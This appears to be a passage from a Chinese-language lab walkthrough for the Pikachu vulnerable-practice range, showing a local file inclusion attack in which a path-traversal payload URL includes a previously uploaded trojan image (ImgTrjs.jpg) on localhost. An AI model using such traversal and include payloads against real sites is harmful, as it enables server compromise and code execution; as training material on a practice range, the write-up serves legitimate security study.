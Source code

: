 <br>

包含不存在的文件导致报错:`http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=file7.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`

从报错信息可看出文件包含函数用的是include(), 被包含的文件路径为`pikachu\vul\fileinclude\include\file7.php`

![image-20221128193653147](pikachu靶场/image-20221128193653147.png)

<br>

由于文件处于`/include`目录下, 故不能使用绝对路径, 需转换成相对路径, 最终包含木马图片的payload如下

```
http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/ImgTrjs.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

![image-20221128195624830](pikachu靶场/image-20221128195624830.png)
